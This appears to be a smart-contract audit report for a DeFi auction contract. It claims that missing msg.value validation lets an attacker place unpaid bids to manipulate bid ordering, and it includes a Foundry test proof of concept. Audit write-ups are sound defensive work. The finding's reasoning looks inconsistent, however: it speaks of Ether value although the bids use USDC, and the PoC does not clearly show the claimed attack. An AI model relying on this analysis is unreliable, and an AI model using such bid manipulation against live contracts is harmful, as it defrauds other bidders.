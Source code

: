 Radiant Peanut Ram

Medium

# ### lack of msg.value check to determine if the bid amount aligns with whats being sent, `insertSortedBid` function

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L177


### summary

The `bid` function  lacks validation to ensure that the value sent (msg.value) aligns with the intended `sellCouponAmount`. This oversight allows malicious users to send zero o while still successfully placing bids, the `insertSortedBid` function relies on the unvalidated `sellCouponAmount`, causing the auction's linked list to be manipulated, resulting in invalid or unfair auction outcomes.

### root cause


The `bid` function does not verify whether the Ether sent (msg.value) corresponds to the declared sellCouponAmount. This omission allows bids to be placed without committing the necessary payment.


The `insertSortedBid` function uses sellCouponAmount to determine the bid's placement in the linked list. Since `sellCouponAmount` is unvalidated, an attacker can exploit this to skew the bid order.

The contract assumes that all bidders provide valid payments or tokens when, in reality, no checks enforce this assumption.


### POC
The attacker submits multiple unpaid bids with artificially inflated sellCouponAmount, pushing out legitimate bids from the auction (_removeBid removes lower-ranked bids).
This allows the attacker to secure a winning position without committing the required payment.


```javascript
function testBidSuccessSortManipulation() public {
    address legetimateUser = address(0x123131);

    usdc.mint(bidder, 100 ether);
    usdc.mint(legetimateUser, 1000 ether);

    weth.mint(address(auction), 1000000000000 ether);

    uint256 slot = auction.slotSize();

    vm.startPrank(bidder);
    usdc.approve(address(auction), 40 ether);

    auction.bid(1, slot);

    auction.bid(50 ether, slot);

    auction.bid(1, slot);

    auction.bid(1, slot);

    // auction.bid(10, slot);
    vm.stopPrank();

    vm.startPrank(legetimateUser);
    usdc.approve(address(auction), 100 ether);
    // vm.expectRevert();
    auction.bid(55 ether, slot);
    vm.stopPrank();

    vm.warp(block.timestamp + 15 days);
    vm.prank(pool);
    auction.endAuction();

    vm.prank(bidder);
    auction.claimBid(1);
  }
```
### Impact

THis pushes legitimate bids further down the order, even if they follow the correct rules. Legitimate bidders may lose their rightful position in the auction.

### Mitigation

validate the msg.value is the actual amount